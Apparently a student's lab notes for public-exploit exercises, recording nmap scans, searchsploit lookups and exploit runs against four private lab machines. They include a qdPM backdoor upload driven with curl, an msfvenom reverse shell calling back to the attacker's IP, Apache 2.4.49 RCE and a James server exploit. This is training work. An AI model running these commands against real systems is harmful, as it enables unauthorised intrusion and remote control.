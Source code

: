 
```bash
# IP: 192.168.249.11

# Service enumeration
sudo nmap -sV -sC -v 192.168.249.11
	# Found 22, 80

# Path enumeration
gobuster dir -u 192.168.249.11 -w /usr/share/wordlists/dirb/common.txt -t 10

# Creating a dictionnary of passwords
skweez http://192.168.249.11/ -d 2 > passwords.txt

# Given valid credential couple:
	# george@AIDevCorp.org:AIDevCorp

# Looking for exploit
searchsploit qdpm 9.1
	# Found 50944

# Moving exploit around
searchsploit -m 50944

# Running exploit
python3 50944.py -url http://192.168.249.11/project/ -u george@AIDevCorp.org -p AIDevCorp
	# Output:
	# Backdoor uploaded at - > http://192.168.249.11/project/uploads/users/427531-backdoor.php?cmd=whoami

# Finding the flag
curl http://192.168.249.11/project/uploads/users/427531-backdoor.php --data-urlencode 'cmd=find / -name "flag.txt" 2>/dev/null'

```

1. Start and exploit the _PublicExploits01_ machine.



```bash
# IP: 192.168.249.10

# Service enumeration
sudo nmap -sV -sC -v 192.168.249.10
	# 135
	# 139
	# 445: SMB. Seems like guest is enough. Remotemouse


# Connecting through SMB
nxc smb 192.168.249.10 -u "guest" -p "" --shares
	# Seeing offsec

# Checking for vuln in SMB
nxc smb 192.168.249.10 -u 'g' -p '' -M zerologon -M printnightmare -M smbghost -M  ms17-010
	# Seems like it's vulnerable to printnightmare

# Connect
smbclient -N //192.168.249.10/offsec -U 'charlotte'

# Download all files
mask "" 
recurse ON 
prompt OFF 
mget *
	# Takes a while, not super worth it since some files can't be read

# Axises:
	# PrintHood
	# Mouse server

# Found exploit: 
searchsploit mouse server
	# windows/remote/50972.py

# Exploiting
python 50972.py 192.168.249.10 192.168.45.238:8000 filemescouilles.txt
	# Successful!

# Generating RS via MSFvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.238 LPORT=4444 -f exe > reverse.exe

# RS works :D

```
![[Pasted image 20250319220709.png]]


2. Start and exploit the _PublicExploits02_ machine.

```bash
# IP: 192.168.249.188

# Enumeration
sudo nmap -sV -sC -v 192.168.249.188
	# Found Apache 2.4.49

# Looking for related exploit
searchsploit apache 2.4.49
	# Found Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
	# 50383

# Copying the exploit
searchsploit -m 50383

# Running the exploit :)
./50383.sh targets.txt /bin/sh 'find / -name "flag.txt" 2>/dev/null'
./50383.sh targets.txt /bin/sh 'cat /home/offsec/flag.txt'
	# GG!
```

![[Pasted image 20250319222515.png]]


3. **Capstone Lab**: An exploitable server is running services on several ports on the exercise VM, _PublicExploits03_. Treat this like a real box and start by identifying what services are running. There is a local user _student_ on this box with the password _lab_. Exploit the vulnerable service and SSH to the box to read _flag.txt_ located in _/home/challenge/_.

```bash
# IP: 192.168.249.52

# Enumeration
sudo nmap -sV -sC -v 192.168.249.52
	# Found only SSH - default credentials do not work

# Trying a deeper NMAP scan
sudo nmap -sV -sC -v --top-ports=5000 192.168.249.52
	# 32822: Found a remote James Admin :)

# Finding exploit
searchsploit james 2.3.2
	# Found:
		# 50347 - RCE Authenticated
		# 35513 - RCE 

# Retrieving exploit 50347
searchsploit -m 50347
	# Doesn't work, authentication fails (even with student / lab)

# Retrieving exploit 35513
searchsploit -m 35513

# Exploit doesn't seem to work, doing with Telnet directly
telnet 192.168.249.52 32822
	# root / root seems to work

# The script needs to be updated so that it uses the right port - as it's missing SMTP port apparently.

# Running an EVEN deeper NMAP:
sudo nmap -sV -sC -v -p- 192.168.249.52
	# Found many ports
	# 22 OpenSSH
	# 32826 SSH
	# 32825 SMTP
	# Other Mail related ports

# Updated the exploit with correct ports

# Started Listener
# Connection was established ;)
```
![[Pasted image 20250319225559.png]]